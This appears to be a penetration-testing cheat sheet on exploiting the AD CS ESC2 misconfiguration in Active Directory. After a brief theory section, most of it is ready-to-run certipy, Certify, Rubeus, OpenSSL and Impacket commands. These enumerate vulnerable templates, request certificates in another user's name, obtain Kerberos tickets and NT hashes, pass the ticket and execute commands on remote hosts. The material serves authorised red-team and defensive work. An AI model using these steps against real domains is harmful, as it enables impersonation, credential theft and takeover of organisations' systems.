 # ESC2—Any Purpose EKU or No EKU (Subordinate CA) on Enrollable Template

## Theory

If an enrollable template has **Any Purpose** EKU (`2.5.29.37.0`) or **no EKUs at all**, the issued certificate is valid for many uses.

- **Path A (SAN allowed):** If the template also lets the enrollee supply the subject and SAN, you can request a cert that names a different user’s UPN in the SAN and authenticate as that user (same flow as ESC1).
- **Path B (no SAN):** You can still obtain a broadly valid or subordinate CA certificate. This cannot be used for AD logon via PKINIT unless its issuer is trusted in **NTAuthCertificates**, but it may be abused for other purposes (e.g., server TLS, code signing). Chaining into on-behalf-of/agent scenarios is covered under ESC3.

## Requirements

- Low-privileged principals have **Enroll** on the template.
- **Requires Manager Approval = False**.
- **Authorized Signatures Required = 0**.
- Template EKUs: **Any Purpose** or **no EKUs**.
- For **Path A** additionally: **Enrollee supplies subject** and CA allows **UserSpecifiedSAN**.
 
---

## Linux

### Enumerate

```bash
certipy find -u '<USER>@<DOMAIN>' -p '<PASS>' -dc-ip <DC_IP> -vulnerable -stdout
# Look for: Any Purpose = True  OR  Extended Key Usage: Any Purpose  OR  no EKUs
# For Path A also confirm: Enrollee Supplies Subject = True and CA indicates UserSpecifiedSAN
```

### Exploit—Path A (SAN Allowed; Impersonate like ESC1)

```bash
certipy req -u '<USER>@<DOMAIN>' -p '<PASS>' -dc-ip <DC_IP> \
  -ca '<CA_NAME>' -template '<TEMPLATE_NAME>' -upn '<ALT_UPN>'
# => Saves a PFX for the target identity
```

```bash
certipy auth -pfx <PFX_FILE> -username '<ALT_SAM>' -domain '<DOMAIN>' -dc-ip <DC_IP>
# => Produces <ALT_SAM>.ccache and may return NT hash
```

```bash
KRB5CCNAME=<ALT_SAM>.ccache wmiexec.py -k -no-pass <TARGET_HOST_FQDN>
# or psexec.py / smbexec.py with -k -no-pass
```

### Exploit—Path B (no SAN; broad/SubCA Cert, non-PKINIT abuse)

```bash
certipy req -u '<USER>@<DOMAIN>' -p '<PASS>' -dc-ip <DC_IP> \
  -ca '<CA_NAME>' -template '<TEMPLATE_NAME>'
# Use resulting cert for non-domain-logon purposes (e.g., TLS/code signing).
# AD logon via PKINIT will not work unless the issuing CA is present in NTAuthCertificates.
```

Note: Ensure `<TARGET_HOST_FQDN>` resolves (DNS or `/etc/hosts`).

---

## Windows

### Enumerate (Certify)

```powershell
.\Certify.exe find /vulnerable
# Identify templates where:
#   pkiextendedkeyusage : Any Purpose  OR EKUs absent
#   Authorized Signatures Required : 0
#   Enrollee supplies subject (for Path A)
#   Low-privileged principals have Enroll
# Confirm CA shows UserSpecifiedSAN for Path A.
```

### Enumerate (PowerShell LDAP Filter for ESC2)

```powershell
Get-ADObject -LDAPFilter `
'(&(objectclass=pkicertificatetemplate)
  (!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))
  (|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))
  (|(pkiextendedkeyusage=2.5.29.37.0)(!(pkiextendedkeyusage=*))))' `
-SearchBase "CN=Configuration,<FOREST_DN>"
```

### Exploit—Path A (SAN Allowed; Impersonate like ESC1)

```powershell
.\Certify.exe request /ca:<CA_FQDN>\<CA_NAME> /template:<TEMPLATE_NAME> /altname:<ALT_UPN> > cert.pem
```

```powershell
& "C:\Program Files\OpenSSL-Win64\bin\openssl.exe" pkcs12 `
  -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" `
  -export -out cert.pfx
```

```powershell
.\Rubeus.exe asktgt /user:<ALT_SAM> /certificate:cert.pfx /getcredentials /nowrap
# => Base64 TGT (kirbi) and possibly NTLM hash
```

```powershell
.\Rubeus.exe createnetonly /program:powershell.exe /show
# In the shown PowerShell session:
.\Rubeus.exe ptt /ticket:<BASE64_TGT>
```

### Exploit—Path B (no SAN; broad/SubCA cert)

```powershell
.\Certify.exe request /ca:<CA_FQDN>\<CA_NAME> /template:<TEMPLATE_NAME> > cert.pem
# Convert to PFX if needed (see above). Use for non-PKINIT abuses (e.g., TLS/code signing).
# Not valid for AD logon unless issuer is trusted in NTAuthCertificates.
```

